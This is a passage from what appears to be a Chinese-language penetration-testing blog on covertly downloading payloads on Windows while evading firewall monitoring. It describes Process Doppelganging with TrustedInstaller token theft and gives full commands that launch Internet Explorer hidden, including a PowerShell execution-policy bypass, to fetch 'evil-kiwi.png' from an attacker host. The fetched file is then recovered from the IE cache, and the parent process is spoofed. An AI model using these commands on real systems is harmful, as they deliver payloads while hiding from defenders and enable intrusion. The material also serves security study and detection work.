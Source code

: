 打开防火墙监控，下载进程为Internet Explorer，完整测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-1-3/1-1.gif)

**c) Process Doppelganging**

参考文章：

[《Process-Doppelganging利用介绍》](https://3gstudent.github.io/3gstudent.github.io/Process-Doppelganging%E5%88%A9%E7%94%A8%E4%BB%8B%E7%BB%8D/)

原理上类似于Process Hollowing，实现思路为打开一个正常文件，创建transaction；在这个transaction内填入payload，payload作为进程被启动；回滚transaction

需要注意的是Process Doppelganging需要对正常文件进行写入操作。如果是对iexplore.exe进行利用，需要获得Trusted Installer权限，获得Trusted Installer权限的方法可参考文章：

[《渗透技巧——Token窃取与利用》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Token%E7%AA%83%E5%8F%96%E4%B8%8E%E5%88%A9%E7%94%A8/)

**d) 隐蔽启动IE，访问特定网址，通过缓存获得下载的文件**

第一种思路：

cmd启动IE，访问网址，通过缓存获得下载的文件

```
start "C:\Program Files\Internet Explorer\iexplore.exe" http://192.168.62.131/evil-kiwi.png
```

**注：**

这种方式会打开IE的界面，但可通过API `ShowWindowAsync`隐藏IE界面，powershell实现脚本：

https://github.com/3gstudent/Writeup/blob/master/HiddenProcess.ps1

第二种思路：

通过powershell隐蔽启动IE，访问网址，通过缓存获得下载的文件

```
powershell -executionpolicy bypass -Command "Start-Process -FilePath \"C:\Program Files\Internet Explorer\iexplore.exe\" -ArgumentList http://192.168.62.131/evil-kiwi.png -WindowStyle Hidden"
```

以上两种思路通过IE访问网址后，会在如下位置保存缓存文件：

- Win7: `%LOCALAPPDATA%\Microsoft\Windows\Temporary Internet Files`
- Win8、Win10: `%LOCALAPPDATA%\Microsoft\Windows\INetCache\IE`

可使用通配符获得不同系统下缓存文件的路径，命令如下：

```
dir %LOCALAPPDATA%\*evil-kiwi*.png /s /b
```

以上两种思路会在IE浏览器留下历史记录，历史记录对应路径为： `%LOCALAPPDATA%\Microsoft\Windows\History\`

该方法的父进程为powershell.exe，但可以通过token复制改变父进程(例如SelectMyParent、Invoke-TokenManipulation.ps1)

第三种思路:

利用计划任务启动IE，访问网址，通过缓存获得下载的文件(需要管理员权限)
